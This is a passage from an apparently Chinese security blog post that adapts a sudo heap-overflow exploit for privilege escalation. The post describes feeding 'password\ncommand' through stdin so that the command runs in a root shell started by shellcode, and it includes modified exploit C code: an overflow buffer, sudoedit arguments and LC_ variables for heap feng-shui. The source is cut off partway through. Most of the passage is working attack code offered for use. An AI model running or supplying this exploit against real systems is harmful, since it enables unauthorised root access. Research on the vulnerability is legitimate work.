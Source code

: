 ```c
        wait(0);
        wait(0);
        return 0;
}
```


![2021-02-10-03-10-12](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/5cd0d7de66ef48c3cae7021b88576487.png)

测试结果正确：2！

stdin的值为：`test\r\n1111`，wc -l 命令读取是以`\n`为每一项分割的，因此返回的是2。


这个方案可以直接拿到Exploit中，将stdin覆盖，向管道写入`密码\n命令`，然后把命令传入即可。

为什么这里是`密码\n命令`呢？

是因为第一个`\n`是为了结束密码的传递，然后开始堆溢出，溢出完成后，后续的命令刚好会传入到Shellcode启动的`/bin/sh`中。

![2021-02-10-03-13-24](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/dd2237b99e5fb3010d0ac87636fba9d4.png)

修改后的Exploit：

```c
#include <unistd.h> // execve()
#include <string.h> // strcat()
#include <stdio.h>

int main(int argc, char * argv[]) {

    if(argc < 2){
        printf("Usage: %s <Command> \n",argv[0]);
        printf("[+]Refrence : @Qualys Research Team @Max Kamper \n");
        printf("[+]Modify by Rvn0xsy@ https://payloads.online\n");	
        return 0;
    }
    char * input_command = argv[1];
    int nSize = strlen(input_command)+6;
    
    char * command = malloc(nSize);
    memset(command,0x00,nSize);
    sprintf(command,"test\n\n%s\n",input_command);
    // 'buf' size determines size of overflowing chunk.
    // This will allocate an 0xf0-sized chunk before the target service_user struct.
    int i;
    char buf[0xf0] = {0};
    memset(buf, 'Y', 0xe0);
    strcat(buf, "\\");

    char* sudoedit_argv[] = {
        "sudoedit",
	    "-S",
        "-s",
        buf,
        NULL};

    // Use some LC_ vars for heap Feng-Shui.
    // This should allocate the target service_user struct in the path of the overflow.
    char messages[0xe0] = {"LC_MESSAGES=en_GB.UTF-8@"};
    memset(messages + strlen(messages), 'A', 0xb8);

    char telephone[0x50] = {"LC_TELEPHONE=C.UTF-8@"};
    memset(telephone + strlen(telephone), 'A', 0x28);

    char measurement[0x50] = {"LC_MEASUREMENT=C.UTF-8@"};
    memset(measurement + strlen(measurement), 'A', 0x28);
```